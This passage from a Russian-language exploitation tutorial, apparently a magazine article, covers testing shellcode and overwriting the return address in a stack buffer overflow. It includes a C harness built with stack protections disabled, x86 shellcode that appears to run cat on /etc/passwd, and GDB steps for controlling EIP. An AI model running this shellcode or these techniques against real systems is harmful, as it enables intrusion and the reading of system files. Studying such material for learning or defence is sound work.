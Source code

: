 ```c
        ret = (int*)&ret + 2;
        (*ret) = (int)shellcode;
}
```

Логика работы проста:

1. объявление указателя на целое (переменная `ret`), который расположится в стековом фрейме `main` сразу после сохраненного значения EBP;
2. смещение на 8 байт относительно этой переменной для того, чтобы попасть на адрес возврата (`+2` переместит нас точно на 8 байт, т. к. мы имеем дело с типом «указатель», который занимает 4 байта);
3. перезапись адреса возврата (EIP) адресом нашего шелл-кода. Грубо говоря, происходит то же самое, что мы сделаем при эксплуатации переполнения — только здесь все «легально».

Альтернативной реализацией может стать также Си-шный код, в котором мы будем интерпретировать массив, содержащий шелл-код, как функцию, и просто «вызовем» ее.

```c
// Использование: gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o test_shellcode_v2 test_shellcode_v2.c && ./test_shellcode_v2

#include <stdio.h>
#include <string.h>

const unsigned char shellcode[] =
        "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65"
        "\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80";

int main(int argc, char* argv[]) {
        printf("Shellcode size: %d\n\n", strlen((const char*)shellcode));

        void (*fp)(void);
        fp = (void*)shellcode;
        fp();
}
```

Используй, что нравится, а мы идем дальше.

## Полезная нагрузка до ESP

GDB позволяет использовать скриптовый функционал Python из интерактивного режима для облегчения процесса отладки, поэтому с помощью простой питоновской команды еще раз убедимся, что мы можем перезаписать значение EIP на что угодно.

Для этого командой `break` я поставлю точку останова на инструкцию ret (адрес `0x0804844d` — см. листинг ассемблера).

```
gdb-peda$ b *0x0804844d
```

После чего выполню программу, передав в качестве аргумента строку из 132 символов «A» (мусор, чтобы добраться до адреса возврата), конкатенированную со зловещим значением `0xd34dc0d3` («мертвый код»). Помня о little-endian я разворачиваю строку, содержащую адрес, с помощью питоновском механизма работы со срезами `[::-1]`.


[//]: # (2019-09-20)